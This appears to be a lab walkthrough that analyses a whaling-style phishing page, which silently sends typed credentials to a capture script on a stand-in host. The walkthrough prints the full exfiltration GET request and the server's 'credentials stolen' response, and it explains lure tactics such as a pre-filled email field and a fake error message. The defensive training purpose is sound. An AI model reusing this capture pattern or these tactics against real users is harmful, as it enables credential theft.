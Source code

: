 First, click **Start Machine** at the top of this task. This will open up the VM in a split-screen browser window. If the VM is not visible, click the blue **Show Split View** button at the top-right of the page. Once you are brought to the desktop, open the original `ParrotPostACTIONREQUIRED.htm` document in the VM's web browser (right-click, and select **Open With Firefox Web Browser**).

**Note:** For this task, please ensure you are using the VM attached to this task, rather than the AttackBox.

You should be directed to the following HTML page in your browser:

```
Email: pfeathers@flying-sec.thm
Password: 
[ Login ]
```

As suspected, this is a credential capture login page, and it appears Paul's email address has already been filled in under the **Email** field. This is a common familiarity tactic to have a victim think a site has remembered or cached their username, helping to create trust. It also reveals that this is likely a targeted phishing campaign, and since Paul is a senior executive, this may specifically be a [Whaling attack](https://www.ncsc.gov.uk/guidance/whaling-how-it-works-and-what-your-organisation-can-do-about-it).

Let's change the value of the **Email** and **Password** fields to represent fake credentials, as this will probably be logged on the attacker's server. Then, click **Login**.

```
test@test.com
1234
```

Upon submitting our phony credentials, the website returns an error message claiming an error processing our login request. However, that might not be the case; this may be a "fake" error message that attackers use to ease suspicion, whereas, in reality, our request containing credentials did go through in the background (through the beauty of asynchronous JavaScript).

```
developer tools > network > file

GET http://evilparrot.thm:8080/cred-capture.php?email=test@test.com&password=1234

copy and paste in new browser tab

http://evilparrot.thm:8080/cred-capture.php?email=test@test.com&password=1234


THM{c4p7ur3d_y0ur_cr3d5} Status: SUCCESS! Credentials have been stolen and appended to http://evilparrot.thm:8080/creds.txt
```

Our browser successfully established the connection to the `evilparrot.thm` web server and included our credentials as query parameters in the GET request to `/cred-capture.php`.

Clicking on the listed request will give us more details in the right-hand panel. We can navigate between different tabs to view information, such as the request and response headers. The **Response** tab will show any response content, such as the HTML, JSON, or XML response body. Sometimes this can give us more information about how the web server handles the request, depending on how verbose the server-side code is designed.
